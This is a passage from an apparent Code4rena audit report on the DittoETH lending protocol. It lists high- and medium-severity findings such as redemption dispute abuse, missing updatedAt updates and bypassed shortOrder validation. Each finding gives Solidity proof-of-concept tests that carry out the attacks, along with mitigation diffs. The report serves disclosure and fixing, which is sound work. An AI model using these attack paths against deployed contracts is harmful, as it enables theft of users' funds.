        fundLimitBidOpt(DEFAULT_PRICE -  0.000000001 ether, DEFAULT_AMOUNT, redeemer2);
        fundLimitShortOpt(DEFAULT_PRICE -  0.000000001 ether, DEFAULT_AMOUNT, shorter);

        MTypes.ProposalInput[] memory redeemerProposalInputs = new MTypes.ProposalInput[](1);
        redeemerProposalInputs[0] = MTypes.ProposalInput({shorter: shorter, shortId: C.SHORT_STARTING_ID, shortOrderId: 0});

        _setETH(1000 ether);
        vm.prank(redeemer);
        diamond.proposeRedemption(asset, redeemerProposalInputs, DEF_REDEMPTION_AMOUNT, MAX_REDEMPTION_FEE); // Redeemer creates a proposal
        skip(diamond.getAssetUserStruct(asset, redeemer).timeToDispute); // Skip the time to dispute for the first proposal (5401 seconds)

        MTypes.ProposalInput[] memory redeemer2ProposalInputs = new MTypes.ProposalInput[](1);
        redeemer2ProposalInputs[0] = MTypes.ProposalInput({shorter: shorter, shortId: C.SHORT_STARTING_ID + 1, shortOrderId: 0});
        
        vm.prank(redeemer2);
        diamond.proposeRedemption(asset, redeemer2ProposalInputs, DEF_REDEMPTION_AMOUNT, MAX_REDEMPTION_FEE); // Redeemer2 creates a proposal

        assert(diamond.getOffsetTime() < diamond.getAssetUserStruct(asset, redeemer2).timeToDispute); // Not enough time has passed in order to redeem the second proposal (5402 < 10802)

        vm.expectRevert(Errors.TimeToDisputeHasNotElapsed.selector);
        vm.prank(redeemer2);
        diamond.claimRedemption(asset); // This correctly reverts as 5401 seconds have not passed and bug is non-existent in claimRedemption()

        STypes.ShortRecord[] memory shortRecordsBefore = diamond.getShortRecords(asset, shorter); // Get shortRecords before the deletion

        vm.prank(shorter);
        diamond.claimRemainingCollateral(asset, redeemer, 0, C.SHORT_STARTING_ID + 1); // Claiming collateral without waiting (this is the bug)

        STypes.ShortRecord[] memory shortRecordsAfter = diamond.getShortRecords(asset, shorter); // Get shortRecords after the deletion

        uint256 totalShortRecordsCollateralBefore;
        uint256 totalShortRecordsDebtBefore;

        for (uint256 i = 0; i < shortRecordsAfter.length; i++) { // Get the total collateral and total debt for the short records
            totalShortRecordsCollateralBefore += shortRecordsAfter[i].collateral;
            totalShortRecordsDebtBefore += shortRecordsAfter[i].ercDebt;
        }

        // Compare the total collateral and total debt based on the short records vs. based on the asset struct (they are equal as they should be)
        STypes.Asset memory assetStruct = diamond.getAssetStruct(asset);
        assertEq(totalShortRecordsCollateralBefore, assetStruct.dethCollateral); // 32500000000000000000
        assertEq(totalShortRecordsDebtBefore, assetStruct.ercDebt); // 20000000000000000000000

        assertEq(shortRecordsAfter.length, shortRecordsBefore.length - 1); // Deletion happened

        vm.prank(disputer);
        diamond.disputeRedemption(asset, redeemer2, 0, shorter, C.SHORT_STARTING_ID + 6); // Dispute with a shortRecord with a lower CR

        STypes.ShortRecord[] memory shortRecordsFinal = diamond.getShortRecords(asset, shorter); // Current short records

        STypes.Asset memory currentAssetStruct = diamond.getAssetStruct(asset); // Current asset struct

        uint256 currentTotalShortRecordsCollateral;
        uint256 currentTotalShortRecordsDebt;

        for (uint256 i = 0; i < shortRecordsFinal.length; i++) { // Get the total collateral and total debt for the short records
            currentTotalShortRecordsCollateral += shortRecordsFinal[i].collateral;
            currentTotalShortRecordsDebt += shortRecordsFinal[i].ercDebt;
        }

        assert(currentTotalShortRecordsDebt != currentAssetStruct.ercDebt); // 25000000000000000000000 30000000000000000000000
        assert(currentTotalShortRecordsCollateral != currentAssetStruct.dethCollateral); // 39999970000000000000 44999969999999999999
    }
```

</details>

### Recommended Mitigation Steps

Use `||` instead of `&&`

```diff
+ if (claimProposal.shorter != msg.sender || claimProposal.shortId != id) revert Errors.CanOnlyClaimYourShort();
- if (claimProposal.shorter != msg.sender && claimProposal.shortId != id) revert Errors.CanOnlyClaimYourShort();
```

### Assessed type

Invalid Validation

**[ditto-eth (DittoETH) confirmed](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/104#issuecomment-2045984171)**

***

## [[H-06] Closing a SR during a wrong redemption proposal leads to loss of funds](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/35)
*Submitted by [Cosine](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/35), also found by [klau5](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/248)*

<https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L267-L268> 

<https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/AppStorage.sol#L92>

### Impact

When a user creates a redemption proposal with the `proposeRedemption` function the user has to provide a list of the short records (SRs) with the lowest collateral ratios (CR) in the system ascending.

To prevent users from creating proposals with a wrong SR list, anyone is allowed to dispute proposals with the `disputeRedemption` function. This function allows the disputer to prove that a SR with a lower CR was not included in the proposal and for doing so the disputer receives a penalty fee from the proposer.

If between these flows of creating a wrong proposal and disputing it a SR is closed (liquidation, exiting, transfer, ...) the collateral is added to the closed SR and can not be recovered.

### Proof of Concept

The following POC can be implemented in the `Redemption.t.sol` test file:

```solidity
function test_dispute_on_non_existing_sr() public {
    // setup shorts
    makeShorts({singleShorter: true});

    _setETH(1000 ether);
    skip(1 hours);

    STypes.ShortRecord memory sr1 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID);
    STypes.ShortRecord memory sr2 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+1);
    STypes.ShortRecord memory sr3 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+2);

    uint256 cr1 = diamond.getCollateralRatio(asset, sr1);
    uint256 cr2 = diamond.getCollateralRatio(asset, sr2);
    uint256 cr3 = diamond.getCollateralRatio(asset, sr3);

    // CRs are increasing
    assertGt(cr2, cr1);
    assertGt(cr3, cr2);

    // user creates a wrong proposal
    MTypes.ProposalInput[] memory proposalInputs =
        makeProposalInputsForDispute({shortId1: C.SHORT_STARTING_ID + 1, shortId2: C.SHORT_STARTING_ID + 2});

    address redeemer = receiver;
    vm.prank(redeemer);
    diamond.proposeRedemption(asset, proposalInputs, DEFAULT_AMOUNT * 3 / 2, MAX_REDEMPTION_FEE);

    // on of the SRs in the proposal is closed
    fundLimitAskOpt(DEFAULT_PRICE, DEFAULT_AMOUNT / 2, extra);
    exitShort(C.SHORT_STARTING_ID + 2, DEFAULT_AMOUNT / 2, DEFAULT_PRICE, sender);

    // SR is now closed
    sr3 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+2);

    assertEq(uint(sr3.status), uint(SR.Closed));

    uint88 collateralBefore = sr3.collateral;

    // another user disputes the wrong proposal
    address disputer = extra;
    vm.prank(disputer);
    diamond.disputeRedemption({
        asset: asset,
        redeemer: redeemer,
        incorrectIndex: 0,
        disputeShorter: sender,
        disputeShortId: C.SHORT_STARTING_ID
    });

    // SR is still closed and collateral increased
    sr3 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+2);
    assertEq(uint(sr3.status), uint(SR.Closed));
    assertGt(sr3.collateral, collateralBefore);
}
```

### Recommended Mitigation Steps

Opening up the SR again if it's closed would be a solution, but it could probably be misused to avoid liquidations. Therefore, carefully think about the implications of changes in this context.

### Assessed type

Context

**[ditto-eth (DittoETH) confirmed](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/35#issuecomment-2045982402)**

***

## [[H-07] Valid redemption proposals can be disputed by decreasing collateral](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/32)
*Submitted by [Cosine](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/32), also found by [ilchovski](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/219) and [klau5](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/117)*

<https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L259>

<https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortRecordFacet.sol#L81-L104>

### Impact

When a user creates a redemption proposal with the `proposeRedemption` function the user has to provide a list of the short records (SRs) with the lowest collateral ratios (CR) in the system ascending.

To prevent users from creating proposals with a wrong SR list, anyone is allowed to dispute proposals with the `disputeRedemption` function. This function allows the disputer to prove that a SR with a lower CR was not included in the proposal and for doing so the disputer receives a penalty fee from the proposer. Therefore, if an attacker can dispute a valid redemption proposal, the attacker can steal funds from a proposer.

To avoid malicious disputers the system invented a `DISPUTE_REDEMPTION_BUFFER` that should prevent users from disputing with a SR that was created/modified `<=` 1 hour before the redemption proposal was created:

```solidity
if (disputeCR < incorrectProposal.CR && disputeSR.updatedAt + C.DISPUTE_REDEMPTION_BUFFER <= redeemerAssetUser.timeProposed)
```

But not every function that modifies a SR updates the `updatedAt` param. This enables the possibility for an attacker to dispute a valid redemption proposal by modifying a SR after the proposal so that the proposer does not have the chance to create a correct proposal.

The `decreaseCollateral` function does not update the `updatedAt` param and therefore, the following attack path is enabled:

- `initialCR` of the given asset is set to 1.7 (as in the docs) and the max redemption CR is 2 (constant).
- User creates a valid redemption proposal where the SRs have a CR above the `initialCR`.
- The attacker owns a SR with a CR above the ones in the proposal.
- The attacker decreases the CR of the own SR to the `initialCR`, disputes the redemption to receive the penalty fee, and increases the CR back up in one transaction.

### Proof of Concept

The following POC can be implemented in the `Redemption.t.sol` test file:

```solidity
function test_decrease_cr_dispute_attack() public {
    // add import {O} from "contracts/libraries/DataTypes.sol"; to the imports to run this test

    // create three SRs with increasing CRs above initialCR

    // set initial CR to 1.7 as in the docs
    vm.startPrank(owner);
    diamond.setInitialCR(asset, 170);

    uint80 price = diamond.getOraclePriceT(asset);

    fundLimitBidOpt(price, DEFAULT_AMOUNT, receiver);

    depositEth(sender, price.mulU88(DEFAULT_AMOUNT).mulU88(100e18));

    uint16[] memory shortHintArray = setShortHintArray();
    MTypes.OrderHint[] memory orderHintArray = diamond.getHintArray(asset, price, O.LimitShort, 1);
    vm.prank(sender);
    diamond.createLimitShort(asset, price, DEFAULT_AMOUNT, orderHintArray, shortHintArray, 70);

    fundLimitBidOpt(price + 1, DEFAULT_AMOUNT, receiver);

    shortHintArray = setShortHintArray();
    orderHintArray = diamond.getHintArray(asset, price, O.LimitShort, 1);
    vm.prank(sender);
    diamond.createLimitShort(asset, price, DEFAULT_AMOUNT, orderHintArray, shortHintArray, 80);

    fundLimitBidOpt(price + 2, DEFAULT_AMOUNT, receiver);

    shortHintArray = setShortHintArray();
    orderHintArray = diamond.getHintArray(asset, price, O.LimitShort, 1);
    vm.prank(sender);
    diamond.createLimitShort(asset, price, DEFAULT_AMOUNT, orderHintArray, shortHintArray, 100);

    skip(1 hours);

    STypes.ShortRecord memory sr1 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID);
    STypes.ShortRecord memory sr2 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+1);
    STypes.ShortRecord memory sr3 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+2);

    uint256 cr1 = diamond.getCollateralRatio(asset, sr1);
    uint256 cr2 = diamond.getCollateralRatio(asset, sr2);
    uint256 cr3 = diamond.getCollateralRatio(asset, sr3);

    // CRs are increasing
    assertGt(cr2, cr1);
    assertGt(cr3, cr2);

    // user proposes a redemption
    uint88 _redemptionAmounts = DEFAULT_AMOUNT * 2;
    uint88 initialErcEscrowed = DEFAULT_AMOUNT;

    MTypes.ProposalInput[] memory proposalInputs =
        makeProposalInputsForDispute({shortId1: C.SHORT_STARTING_ID, shortId2: C.SHORT_STARTING_ID + 1});

    address redeemer = receiver;
    vm.prank(redeemer);
    diamond.proposeRedemption(asset, proposalInputs, _redemptionAmounts, MAX_REDEMPTION_FEE);

    // attacker decreases collateral of a SR with a CR above the ones in the proposal so that they fall below the CR of the SRs in the proposal
    uint32 updatedAtBefore = getShortRecord(sender, C.SHORT_STARTING_ID + 2).updatedAt;

    vm.prank(sender);
    diamond.decreaseCollateral(asset, C.SHORT_STARTING_ID + 2, 0.3e18);

    uint32 updatedAtAfter = getShortRecord(sender, C.SHORT_STARTING_ID + 2).updatedAt;

    // updatedAt param is not updated when decreasing collateral
    assertEq(updatedAtBefore, updatedAtAfter);

    // attacker successfully disputes the redemption proposal
    address disputer = extra;
    vm.prank(disputer);
    diamond.disputeRedemption({
        asset: asset,
        redeemer: redeemer,
        incorrectIndex: 1,
        disputeShorter: sender,
        disputeShortId: C.SHORT_STARTING_ID + 2
    });
}
```

### Recommended Mitigation Steps

Update the `updatedAt` param when decreasing collateral, or do now allow redemption proposals of SRs above the `initialCR` (as decreasing below that is not possible).

### Assessed type

Context

**[ditto-eth (DittoETH) confirmed](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/32#issuecomment-2045979046)**

***

 
# Medium Risk Findings (9)
## [[M-01] The `shortOrder` verification bug on the `RedemptionFacet::proposeRedemption()` allows an attacker to leave a small `shortOrder` on the order book, leading to the protocol's bad debt](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/262)
*Submitted by [serial-coder](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/262), also found by [unix515](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/306)*

The `BidOrdersFacet::bidMatchAlgo()` allows a `shortOrder` to be partially matched and leave its `ercAmount * price < minAskEth` due to the [`DUST_FACTOR` constant](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L190) (as long as its corresponding `shortRecord` is maintaining enough `ercDebt + shortOrder`'s `ercAmount` to keep the position `>=` the `minShortErc` threshold).

The redemption process enables redeemers to redeem their `ercEscrowed` for `ethCollateral` on target `shortRecords`. If a `shortRecord` was partially filled, the `RedemptionFacet::proposeRedemption()` must guarantee that the corresponding `shortOrder` maintains the `ercAmount` `>=` `minShortErc`. In other words, if the `shortOrder`'s [`ercAmount` is less than the `minShortErc` threshold](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L111), the [`shortOrder` must be canceled](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L113) from the order book. Otherwise, the `shortRecord` position will be less than the `minShortErc` threshold when the order is matched again.

Subsequently, the small `shortRecord` (`short` position) will not incentivize liquidators to liquidate it even if it is liquidable, leaving bad debt to the protocol.

I discovered that the `proposeRedemption()` improperly verifies the proposer (redeemer)'s inputted [`shortOrderId` param](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L81), allowing an attacker to specify the `shortOrderId` param to another `shortOrder`'s id that does not correspond to the target redeeming `shortRecord`.

The vulnerability can bypass the `minShortErc` threshold verification process on the `shortOrder` corresponding to the processing `shortRecord`, eventually allowing an attacker to leave a small `shortRecord` position that disincentivizes liquidators from liquidating the position. Furthermore, the small `shortRecord` also disables the redemption mechanism from redeeming it for `ethCollateral`.

### Proof of Concept

While processing the `proposalInput` param, the `proposeRedemption()` will load the [`shortOrder` from storage according to the attacker-inputted `shortOrderId` param](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L110) (i.e., `p.shortOrderId`).

Suppose that the attacker wants to leave their small `shortRecord` position to disincentivize liquidators from liquidating it (as well as disabling the redemption mechanism from redeeming it for `ethCollateral`). They can place their partially-filled `shortRecord` that has the corresponding `shortOrder.ercAmount < minShortErc` to be redeemed via a Sybil account.

To bypass the `minShortErc` threshold verification process from canceling their small `shortOrder`, the attacker must specify the `p.shortOrderId` param to another `shortOrder`'s id with `ercAmount` `>=` `minShortErc`. The manipulated `p.shortOrderId` param can bypass the verification process because if the [`loaded shortOrder.ercAmount` >= `minShortErc`](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L111), the `proposeRedemption()` will not proceed to verify the [validity of the `shortOrder`](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L112).

Hence, the attacker can target their `shortRecord` to be redeemed and leave its corresponding `shortOrder` with `ercAmount < minShortErc` to keep alive on the order book. Once their small `shortOrder` is matched again, it will leave the `shortRecord` position less than the `minShortErc` threshold, disincentivizing liquidators from liquidating it.

Furthermore, the small `shortRecord` (i.e., [`shortRecord.ercDebt < minShortErc`](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L38)) also disables the redemption mechanism from redeeming it for `ethCollateral`.

```solidity
    function proposeRedemption(
        address asset,
        MTypes.ProposalInput[] calldata proposalInput,
        uint88 redemptionAmount,
        uint88 maxRedemptionFee
    ) external isNotFrozen(asset) nonReentrant {
        ...

        for (uint8 i = 0; i < proposalInput.length; i++) {
            p.shorter = proposalInput[i].shorter;
            p.shortId = proposalInput[i].shortId;
            p.shortOrderId = proposalInput[i].shortOrderId;
            STypes.ShortRecord storage currentSR = s.shortRecords[p.asset][p.shorter][p.shortId];

            ...

@1          STypes.Order storage shortOrder = s.shorts[asset][p.shortOrderId]; //@audit -- The shortOrder is loaded from storage according to the attacker's p.shortOrderId param
@2          if (currentSR.status == SR.PartialFill && shortOrder.ercAmount < minShortErc) { //@audit -- The attacker can leave their target partially-filled shortOrder (corresponding to the redeeming shortRecord) with ercAmount < minShortErc alive by specifying the p.shortOrderId param to another shortOrder's id with ercAmount >= minShortErc
@3              if (shortOrder.shortRecordId != p.shortId || shortOrder.addr != p.shorter) revert Errors.InvalidShortOrder(); //@audit -- The root cause is that the proposeRedemption() verifies the loaded shortOrder against the legitimate shortRecordId and shorter params only after the condition in @2 was met
                LibOrders.cancelShort(asset, p.shortOrderId);
            }

            ...
        }

        ...
    }
```

- [`@1 -- The shortOrder is loaded from storage according to the attacker's p.shortOrderId param`](<https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L110>).

- [`@2 -- The attacker can leave their target partially-filled shortOrder (corresponding to the redeeming shortRecord) with ercAmount < minShortErc alive by specifying the p.shortOrderId param to another shortOrder's id with ercAmount >= minShortErc`](<https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L111>)

- [`@3 -- The root cause is that the proposeRedemption() verifies the loaded shortOrder against the legitimate shortRecordId and shorter params only after the condition in @2 was met`]( <https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L112>)

### Recommended Mitigation Steps

To fix the vulnerability, move out the `shortOrder` verification check and execute it immediately after loading the `shortOrder` from storage.

```diff
    function proposeRedemption(
        address asset,
        MTypes.ProposalInput[] calldata proposalInput,
        uint88 redemptionAmount,
        uint88 maxRedemptionFee
    ) external isNotFrozen(asset) nonReentrant {
        ...

        for (uint8 i = 0; i < proposalInput.length; i++) {
            p.shorter = proposalInput[i].shorter;
            p.shortId = proposalInput[i].shortId;
            p.shortOrderId = proposalInput[i].shortOrderId;
            STypes.ShortRecord storage currentSR = s.shortRecords[p.asset][p.shorter][p.shortId];

            ...

            STypes.Order storage shortOrder = s.shorts[asset][p.shortOrderId];
+           if (shortOrder.shortRecordId != p.shortId || shortOrder.addr != p.shorter) revert Errors.InvalidShortOrder();
            if (currentSR.status == SR.PartialFill && shortOrder.ercAmount < minShortErc) {
-               if (shortOrder.shortRecordId != p.shortId || shortOrder.addr != p.shorter) revert Errors.InvalidShortOrder();
                LibOrders.cancelShort(asset, p.shortOrderId);
            }

            ...
        }

        ...
    }
```

### Assessed type

Invalid Validation

**[raymondfam (lookout) commented](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/262#issuecomment-2041282393):**
 > Inadequate/unstructured proof to support the intended code refactoring.

**[serial-coder (warden) commented](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/262#issuecomment-2061065261):**
> Please have a second look at the following from the `Proof of Concept` section.
>
> To demystify the vulnerability again, please follow the links along:
> 
> 1. The `shortOrder` is loaded from storage according to the [attacker's `p.shortOrderId` param](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L110).
> 2. The attacker can leave their target partially-filled `shortOrder` (corresponding to the redeeming `shortRecord`) with `ercAmount` < `minShortErc` alive on the order book by specifying the `p.shortOrderId` param to another `shortOrder`'s id with `ercAmount` >= `minShortErc` (to bypass the [`if` statement](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L111)).
> 3. The root cause is that the [`proposeRedemption()` will verify the loaded `shortOrder` against the `shortRecordId` and `shorter` params](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L112) only after the condition in Step 2 was met.
> 4. Since the attacker already bypassed the condition check in Step 2, Step 3 would not be executed.
> 
> Hence, if the attacker points the `p.shortOrderId` param to another (fake) `shortOrder`'s id with `ercAmount` >= `minShortErc`, they can bypass the validity check of the loaded (fake) `shortOrder`, preventing their [targeted small `shortOrder` (the real `shortOrder` corresponding to the redeeming `shortRecord`) from being canceled](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L113). 
> 
> Subsequently, the attacker can leave their target small `shortOrder` on the order book and when it is matched, its short position (`shortRecord`) will be less than the `minShortErc` threshold that will disincentivize liquidators from liquidating the position even if it is liquidable, leading to the protocol's bad debt. Moreover, the small `shortRecord` (i.e., [`shortRecord.ercDebt < minShortErc`](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L38)) will also disable the redemption mechanism from redeeming it for `ethCollateral`.
> 
> **Summary Of Impacts:**
> 
> 1. An attacker can leave small `shortOrders` on the order book. As a result, large `Bid` orders can run out of gas if the attacker places many small `shortOrders` on the order book.
> 2. Liquidators are disincentivized from liquidating small `shortRecords` because of their small amounts.
> 3. Small `shortRecords` disable the redemption mechanism from redeeming them for `ethCollateral` even if they have poor collateralization.
> 
> **Solution:**
> 
> The snippet below presents how to fix the vulnerability by verifying the validity of the loaded `shortOrder` (Step 1) against the `shortRecordId` and `shorter` params (Step 3) before processing the loaded `shortOrder` (Step 2).
> 
> This way, an attacker cannot manipulate the `p.shortOrderId` param to another (fake) `shortOrder`'s id:
> 
> ```diff
>     function proposeRedemption(
>         address asset,
>         MTypes.ProposalInput[] calldata proposalInput,
>         uint88 redemptionAmount,
>         uint88 maxRedemptionFee
>     ) external isNotFrozen(asset) nonReentrant {
>         ...
> 
>         for (uint8 i = 0; i < proposalInput.length; i++) {
>             p.shorter = proposalInput[i].shorter;
>             p.shortId = proposalInput[i].shortId;
>             p.shortOrderId = proposalInput[i].shortOrderId;
>             STypes.ShortRecord storage currentSR = s.shortRecords[p.asset][p.shorter][p.shortId];
> 
>             ...
> 
>             STypes.Order storage shortOrder = s.shorts[asset][p.shortOrderId]; //@audit -- Step 1
> +           if (shortOrder.shortRecordId != p.shortId || shortOrder.addr != p.shorter) revert Errors.InvalidShortOrder(); //@audit -- Process Step 3 before Step 2 to fix the vulnerability
>             if (currentSR.status == SR.PartialFill && shortOrder.ercAmount < minShortErc) { //@audit -- Step 2
> -               if (shortOrder.shortRecordId != p.shortId || shortOrder.addr != p.shorter) revert Errors.InvalidShortOrder(); //@audit -- Step 3
>                 LibOrders.cancelShort(asset, p.shortOrderId);
>             }
> 
>             ...
>         }
> 
>         ...
>     }
> ```

**[ditto-eth (DittoETH) confirmed](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/262#issuecomment-2066843025)**

**[hansfriese (judge) commented](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/262#issuecomment-2067998942):**
 > Nice finding. Medium is appropriate, as an attacker can bypass the `minShortErc` validation.

***

## [[M-02] Can manipulate the `C.SHORT_STARTING_ID` `ShortRecord` of the `TAPP`](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/236)
*Submitted by [klau5](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/236)*

<https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L244-L247>

<https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L124>

### Impact

Attackers can make it so that risky debts are not liquidated, and unliquidated risky debts can accumulate over the long term.

### Proof of Concept

`ShortRecord` of `TAPP` can also be liquidated. If all `ercDebt` is liquidated, `LibShortRecord.deleteShortRecord` is called. It moves the `C.SHORT_STARTING_ID` SR of `TAPP` to the reusing ID list and close it.

Later, when user's `ShortRecord` is liquidated, `LibShortRecord.fillShortRecord` is called to change the status of `C.SHORT_STARTING_ID` to `FullyFilled` and update the value in `TAPP`'s `C.SHORT_STARTING_ID` `ShortRecord`.

However, `LibShortRecord.fillShortRecord` does not move the `C.SHORT_STARTING_ID` that has been moved to the reusing ID list back to the active state list:

```solidity
function _fullorPartialLiquidation(MTypes.PrimaryLiquidation memory m) private {
    STypes.VaultUser storage TAPP = s.vaultUser[m.vault][address(this)];
    uint88 decreaseCol = min88(m.totalFee + m.ethFilled, m.short.collateral);

@>  if (m.short.ercDebt == m.ercDebtMatched) {
        // Full liquidation
        LibSRUtil.disburseCollateral(m.asset, m.shorter, m.short.collateral, m.short.dethYieldRate, m.short.updatedAt);
@>      LibShortRecord.deleteShortRecord(m.asset, m.shorter, m.short.id);
        ...
    } else {
        ...
        // TAPP absorbs leftover short, unless it already owns the short
        if (m.loseCollateral && m.shorter != address(this)) {
            // Delete partially liquidated short
            LibShortRecord.deleteShortRecord(m.asset, m.shorter, m.short.id);
            // Absorb leftovers into TAPP short
@>          LibShortRecord.fillShortRecord(
                m.asset,
@>              address(this),
@>              C.SHORT_STARTING_ID,
                SR.FullyFilled,
                m.short.collateral,
                m.short.ercDebt,
                s.asset[m.asset].ercDebtRate,
                m.short.dethYieldRate
            );
        }
    }

    ...
}
```

If you mint a `ShortRecord` as NFT and transfer it, the recipient creates a new `ShortRecord`. If you send an NFT to `TAPP`, `C.SHORT_STARTING_ID` can be reused and overwrite the original value.

```solidity
function transferShortRecord(address from, address to, uint40 tokenId) internal {
    ...

@>  uint8 id = LibShortRecord.createShortRecord(
        asset, to, SR.FullyFilled, short.collateral, short.ercDebt, short.ercDebtRate, short.dethYieldRate, tokenId
    );

    nft.owner = to;
    nft.shortRecordId = id;
    nft.shortOrderId = 0;
}
```

This is PoC. Add it to `LiquidationPrimary.t.sol`:

<details>

```solidity
function test_PoCTappSRManipulate() public { // same with test_PrimaryPartialShort1ThenPartialShort2ThenFullShortTappThenPartialShort3LiquidateCratioScenario3, but added the code at the bottom.
    /////Partial Liquidation 1/////
    (LiquidationStruct memory m,) =
        partiallyLiquidateShortPrimary({scenario: PrimaryScenarios.CRatioBelow110BlackSwan, caller: receiver});

    uint256 collateral = DEFAULT_PRICE.mulU88(DEFAULT_AMOUNT).mul(6 ether) - m.ethFilled - m.tappFee - m.gasFee - m.callerFee;
    uint256 ercDebt = DEFAULT_AMOUNT.mulU88(0.5 ether) - m.ercDebtSocialized;
    uint256 ercDebtAsset = DEFAULT_AMOUNT.mulU88(0.5 ether) + DEFAULT_AMOUNT; // 1 from dummy short
    uint256 ercDebtRate = m.ercDebtRate;

    // check balance after liquidate
    checkShortsAndAssetBalance({
        _shorter: tapp,
        _shortLen: 1,
        _collateral: collateral,
        _ercDebt: ercDebt,
        _ercDebtAsset: ercDebtAsset,
        _ercDebtRateAsset: ercDebtRate,
        _ercAsset: DEFAULT_AMOUNT //1 from short minting
    });

    // Bring TAPP balance to 0 for easier calculations
    vm.stopPrank();
    uint88 balanceTAPP = diamond.getVaultUserStruct(VAULT.ONE, tapp).ethEscrowed;
    depositEth(tapp, DEFAULT_AMOUNT.mulU88(DEFAULT_PRICE) - balanceTAPP);
    vm.prank(tapp);
    createLimitBid(DEFAULT_PRICE, DEFAULT_AMOUNT);

    /////Partial Liquidation 2/////
    _setETH(4000 ether); // Back to default price
    fundLimitShortOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, sender); // Short Record C.SHORT_STARTING_ID gets re-used
    fundLimitAskOpt(DEFAULT_PRICE, DEFAULT_AMOUNT / 2, receiver); // Set up partial liquidation
    // Partial Liquidation
    _setETH(730 ether); // c-ratio 1.095
    vm.prank(receiver);
    (uint256 gasFee,) = diamond.liquidate(asset, sender, C.SHORT_STARTING_ID, shortHintArrayStorage, 0);

    // Assert updated TAPP short
    STypes.ShortRecord memory short = getShortRecord(tapp, C.SHORT_STARTING_ID);
    assertEq(short.collateral, collateral * 2 + m.gasFee - gasFee); // almost exactly the same, just diff gas fee
    assertEq(short.ercDebt, ercDebt * 2);
    ercDebtAsset = diamond.getAssetStruct(asset).ercDebt + DEFAULT_AMOUNT / 2; // add back partial liquidation
    ercDebtRate += m.ercDebtSocialized.div(ercDebtAsset - DEFAULT_AMOUNT); // entire collateral was removed in denominator
